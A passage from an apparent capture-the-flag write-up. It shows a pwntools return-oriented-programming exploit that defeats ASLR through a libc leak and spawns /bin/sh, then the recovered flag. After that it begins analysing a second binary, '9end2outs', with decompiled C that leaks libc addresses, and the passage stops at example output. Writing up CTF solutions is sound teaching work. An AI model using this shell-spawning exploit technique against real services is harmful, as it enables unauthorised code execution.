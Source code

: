 ```python
libc.address = leak_address - libc.sym['puts']
log.info(f"Libc Base @ {hex(libc.address)}")

#Shell
bin_sh = next(libc.search(b"/bin/sh\x00"))
rop = ROP(libc)
rop.raw(rop.ret)
rop.system(bin_sh)

payload = b"A"*40
payload += rop.chain()

log.info(rop.dump())

io.sendline(payload)
io.interactive()
```

Flag = 

    SCTF{W3_c4n_Ov3rc0me_4SLR}

# 9end2outs

Again no sources, let's reverse it

There is this useful function that leak us address of libc function


    int showFuncAddr(unsigned long long a0)
    {
        unsigned long v0;  // [bp-0x40]
        char v1;  // [bp-0x39]
        char v2;  // [bp-0x38]
    
        printf(" > ");
        fgets(&v2, 0x20, stdin@GLIBC_2.2.5);
        if (v1 == 10)
            v1 = 0;
        v0 = dlsym(a0, &v2, &v2);
        if (v0)
        {
            printf(" Libc function '%s' is at %p.\n", (unsigned int)&v2, (unsigned int)v0);
            return;
        }
        printf(" Libc doesn't have function '%s'.\n", (unsigned int)&v2);
        return;
    }

An example

    $ ./9end2outs 
    You have only 3 chances to win the game.
    